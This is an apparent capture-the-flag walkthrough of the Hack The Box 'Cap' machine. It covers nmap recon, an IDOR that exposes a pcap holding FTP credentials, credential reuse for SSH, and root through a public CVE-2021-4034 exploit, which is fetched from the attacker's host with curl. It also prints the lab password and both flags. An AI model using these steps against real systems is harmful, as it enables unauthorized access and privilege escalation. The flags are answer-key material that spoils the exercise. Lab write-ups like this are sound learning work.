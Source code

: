 ```yaml
---
layout: default
title: Cap
---
```


### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

As we can see, port `21` is opened, with `ftp` running on it, port `22` is opened with `ssh` on it, and port `80` with http server.
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see for known vulnerabilities for the `ftp` version, using `searchsploit`. nothing interesting except `DoS` is popping up:
```bash
┌──(agonen㉿kali)-[~/htb/Cap]
└─$ searchsploit vsftpd 3.0.3
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 3.0.3 - Remote Denial of Service                                                                                                                    | multiple/remote/49719.py
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Exploit IDOR to achieve nathan's password ftp server

inside the website, we can navigate to "Security Snapshot":

![website](image-2.png)

This is the url that we are in we entered, http://10.10.10.245/data/10, when we press the download button the file `pcap.10` is being downloaded.

We can try to browse to this url instead, http://10.10.10.245/data/0, and exploit the `IDOR` vulnerability, and by this way getting `pcap.0`, which is capture file of other stream.

I used wireshark to analyze the `pcap` file, inside the 3th TCP stream I found the FTP login:

![achieve password](image-1.png)

So, the username for ftp is `nathan` and the password `Buck3tH4TF0RM3!`.

![ftp login successful](image-3.png)

### Get user flag from ftp server

I saw there are multiple files inside this ftp server, so I used this command to get all files recursively. note, the character `\` isn't part of the password, but it's necessary, because `!` is a special character and i must escape this character.
```bash
wget -m ftp://nathan:Buck3tH4TF0RM3\!@$target
```

![got all files recursively](image-4.png)

and now, we can achieve the user flag:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/10.10.10.245]
└─$ cat user.txt    
da53f416127ecd4325c068bbc1a9c3e5
```

### Privilege Escalation to Root

we try to use the password of `nathan` for `ftp` to check if it works too for the `ssh` service, and surprisingly, it works!
```bash
ssh nathan@$target
```
![ssh successful connection](image-5.png)

let's start our journey for escalation, first we'll go to `sudo -l`:
```bash
nathan@cap:~$ sudo -l
Sorry, user nathan may not run sudo on cap.
```

Then, we'll go to use our `linpeas.sh` (we can start from this directly, it'll show us our sudo permissions anyway)

![linpeas results](image-6.png)

As we can see, it might be vulnerable to `CVE-2021-4034` and to `CVE-2022-2588`.

```bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                              
Sudo version 1.8.31                                                                                                                                                                          

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034                                                                                                                                                                  

Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588
```

I googled for exploit, and find this github repo https://github.com/kimusan/pkwner.

Then, I simply downloaded and set up the http server on my local machine:
```bash
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ ls
pkwner.py  pkwner.sh  README.md  screenshot.png  screenshot-py.gif  screenshot-sh.gif
                                                                                                                                                             
┌──(agonen㉿kali)-[~/htb/Cap/pkwner]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.10.245 - - [22/Oct/2025 16:52:40] "GET /pkwner.sh HTTP/1.1" 200 -
```

and on the remote machine:
```bash
curl http://10.10.16.49:8081/pkwner.sh -o /tmp/pkwner.sh
```

now, we just need to execute the exploit:

![achieve root flag](image-7.png)

```bash
root@cap:/home/nathan# cat /root/root.txt
af5909d5b969291c6afd244f822b7bdd
```


**User Flag:*****`da53f416127ecd4325c068bbc1a9c3e5`***

**Root Flag:*****`af5909d5b969291c6afd244f822b7bdd`***
